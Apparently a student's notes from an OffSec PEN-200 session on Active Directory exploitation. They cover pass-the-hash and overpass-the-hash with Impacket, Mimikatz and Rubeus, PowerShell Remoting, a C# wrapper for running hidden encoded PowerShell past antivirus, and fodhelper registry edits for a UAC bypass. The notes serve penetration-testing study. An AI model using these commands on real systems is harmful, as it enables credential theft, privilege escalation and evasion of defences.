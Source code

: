 # OffSec Live: PEN-200

* **author**:: Nathan Acks
* **date**:: 2022-09-02

## Active Directory Enumeration & Exploitation, Part 4

LM hashes aren't used in WIndows anymore, and often empty or garbage values will work fine when passing a full NTLM hash (only the NT hash is important).

```bash
proxychains python3 \
	/usr/share/doc/python3-impacket/examples/psexec.py \
	-hashes ${LM_HASH}:${NT_HASH} ${USER}@${MACHINE}
```

There's a technique called "overpass the hash" that allows you to take advantage of accounts that are authorized to interact with services but *not* machines on a domain. The idea behind overpass-the-hash is to request a ticket from the domain controller for one user but then use that as the authentication credentials for a different user when running a command. This allows you to be logged in as, say, a service account but then use the credentials for a domain admin to interact with the domain controller. Stealthy!

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NT_HASH /run:$COMMAND"'
```

Note that the "NTLM" hash in the Mimikatz command line is actually just the NT hash.

Another reason to use overpass-the-hash is to be able to interact with services that are restricted to certain users who do *not* have login permissions. This is a common(ish) technique for securing services on a domain.

Note that whenever an overpass-the-hash attack, the output of whoami will become desynced to your network credentials - whoami will still show the user you're logged into, but the domain credentials you use on the network will be those of the user whose hash you "overpassed".

Rubeus can be used to *remove* tickets from an account.

```powershell
Rubeus.exe purge
```

You can also use Rubeus to grab new tickets from a domain controller for a user in an overpass-the-hash attack.

```powershell
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NT_HASH /ptt
```

Note that Rubeus is generally detected by Windows AV these days.

The whole point of all of this is that when interacting with remote computers in an Active Directory domain, what matters is the *hash* you present, *not* the local user!

Many large companies will enable PowerShell Remoting on all machines in order to ease IT support burdens (by default, remoting is only enabled on domain controllers).

```powershell
Invoke-Command -ComputerName $MACHINE `
	-ScriptBlock {$COMMANDS_TO_RUN}
```

Remoting can be used to create a reverse shell.

```powershell
$SESSION_NAME = New-PSSession -ComputerName "$MACHINE"
Enter-PSSession -Session $SESSION_NAME
```

You need to be logged in as a user with permission to use PowerShell for remote administration, however, or be using overpass-the-hash to get an equivalent set of credentials.

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating with overpass-the-hash (this is a way of getting a shell on a machine that you can interact with, but aren't allowed to open a shell on directly).

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

The fodhelper binary can be abused to gain an admin shell on Windows boxes with two registry key changes.

```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe"
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

Note that if you try to put powershell.exe into this, Defender will block the shell from being opened (in fact, the key value will be cleared on run). Other AV tools will even detect cmd.exe. It looks like this can be bypassed, however, by using the CurVer registry key to point fodhelper.exe to a different registry location:

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
